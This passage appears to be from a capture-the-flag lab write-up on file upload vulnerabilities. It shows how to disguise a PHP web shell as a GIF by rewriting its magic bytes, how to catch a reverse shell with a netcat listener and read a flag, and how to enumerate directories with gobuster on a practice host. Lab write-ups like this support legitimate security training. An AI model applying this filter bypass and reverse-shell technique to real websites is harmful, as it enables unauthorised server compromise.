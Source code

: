 we go to the site and try to upload the php file, it says only gifs accepted
we then append 5 AAAAs to the beginning of the php file
and move everything to the next line
like
```php
AAAA
#original content
```
then we open it in a hex editor and change the 41 41 41 41 to 47 49 46 38
now the file signature is of a gifs
on uploading it it says successful
now we do not have access to /graphics
so we just open netcat listener and directly go to graphics/shell.php
and get the flag in the terminal
```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.97.222] from (UNKNOWN) [10.10.205.168] 56740
Linux 94d79a333b8d 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:21:32 up 2 min,  0 users,  load average: 1.92, 1.63, 0.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}
```

**FLAG - `THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}`**

## Challenge
- The first step is to run gobuster and find the endpoints
```bash
$ gobuster dir -u http://jewel.uploadvulns.thm dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jewel.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 181] [--> /content/]
/modules              (Status: 301) [Size: 181] [--> /modules/]
/admin                (Status: 200) [Size: 1238]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Content              (Status: 301) [Size: 181] [--> /Content/]
/Assets               (Status: 301) [Size: 179] [--> /Assets/]
/Modules              (Status: 301) [Size: 181] [--> /Modules/]
/Admin                (Status: 200) [Size: 1238]
```
